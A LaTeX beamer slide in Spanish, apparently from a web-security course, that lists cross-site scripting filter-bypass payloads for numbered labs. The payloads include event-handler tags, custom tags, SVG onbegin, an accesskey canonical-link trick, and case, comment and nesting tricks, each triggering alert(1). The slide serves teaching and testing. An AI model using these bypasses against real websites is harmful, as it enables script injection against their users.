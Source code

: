 \documentclass[aspectratio=169,10pt]{beamer}
\begin{document}
\begin{frame}[allowframebreaks]{XSS con filtros --- WAF y etiquetas bloqueadas}
\small
  \begin{itemize}
  \item Cross-Site Scripting (XSS)
  \item Labs 39-40 --- \textless{}script\textgreater{} bloqueado
  \item Probar otras etiquetas con event handlers:
  \item \textless{}img src=x onerror=alert(1)\textgreater{} \textless{}body onload=alert(1)\textgreater{}
  \item \textless{}input autofocus onfocus=alert(1)\textgreater{} \textless{}details open ontoggle=alert(1)\textgreater{}
  \item Lab 41 --- Solo etiquetas personalizadas
  \item \textless{}xss autofocus tabindex=1 onfocus=alert(1)\textgreater{}
  \item Lab 42 --- SVG permitido
  \item \textless{}svg\textgreater{}\textless{}animatetransform onbegin=alert(1)\textgreater{}\textless{}/svg\textgreater{}
  \item \textless{}svg\textgreater{}\textless{}set onbegin=alert(1)\textgreater{}\textless{}/svg\textgreater{}
  \item Lab 43 --- Etiqueta canonical con accesskey
  \item \textless{}link rel=\textquotedbl{}canonical\textquotedbl{} href='x\textquotedbl{} accesskey=\textquotedbl{}x\textquotedbl{} onclick=\textquotedbl{}alert(1)'\textgreater{}
  \item $\rightarrow$ Requiere Alt+Shift+X del usuario
  \item Técnicas generales de bypass
  \item Capitalización: \textless{}ScRiPt\textgreater{} $\cdot$ Comentarios: \textless{}scr\textless{}!----\textgreater{}ipt\textgreater{}
  \item Eventos poco comunes: onpointerover $\cdot$ ontoggle $\cdot$ onanimationend
  \item Encapsulado: \textless{}\textless{}script\textgreater{}script\textgreater{}alert(1)\textless{}\textless{}/script\textgreater{}/script\textgreater{}
  \end{itemize}
\end{frame}
\end{document}
